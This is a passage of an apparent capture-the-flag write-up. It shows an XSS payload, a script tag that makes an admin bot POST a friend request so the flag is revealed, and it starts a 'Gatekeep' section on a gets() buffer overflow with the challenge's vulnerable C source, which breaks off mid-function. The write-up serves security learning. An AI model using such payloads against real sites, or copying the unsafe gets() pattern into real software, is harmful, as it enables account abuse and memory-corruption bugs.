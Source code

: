 ```javascript  
        res.type("text/html").send(postTemplate.replace("$CONTENT", () => posts.get(req.params.id)));  
    } else {  
        res.status(400).type("text/html").send(postTemplate.replace("$CONTENT", "post not found :("));  
    }  
});  
```  
![](https://i.imgur.com/tzahad5.png)  

It executed:
![](https://i.imgur.com/pXZtCmv.png)
**Final Payload**  
```javascript  
<script>  
fetch('/friend',{  
    method:'POST',  
    headers:{  
        "Content-type":'application/x-www-form-urlencoded'  
    },  
    body:'username=test'  
})  
</script>  
```  
By making a metapost with this, we can send the admin bot to it and get the flag by refreshing the main page.  
![](https://i.imgur.com/vRN0qEz.png) 

## Gatekeep  
This one was a simple overflow caused by the function `gets()` so when the input is greater than `s1[15]` `check()` is bypassed and the flag is obtained.  
**gatekeep.c**
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

void print_flag() {
    char flag[256];

    FILE* flagfile = fopen("flag.txt", "r");
    
    if (flagfile == NULL) {
        puts("Cannot read flag.txt.");
    } else {
        fgets(flag, 256, flagfile);
        flag[strcspn(flag, "\n")] = '\0';
        puts(flag);
    }
}

int check(){
    char input[15];
    char pass[10];
    int access = 0;

    // If my password is random, I can gatekeep my flag! :)
    int data = open("/dev/urandom", O_RDONLY);
    if (data < 0)
    {
```
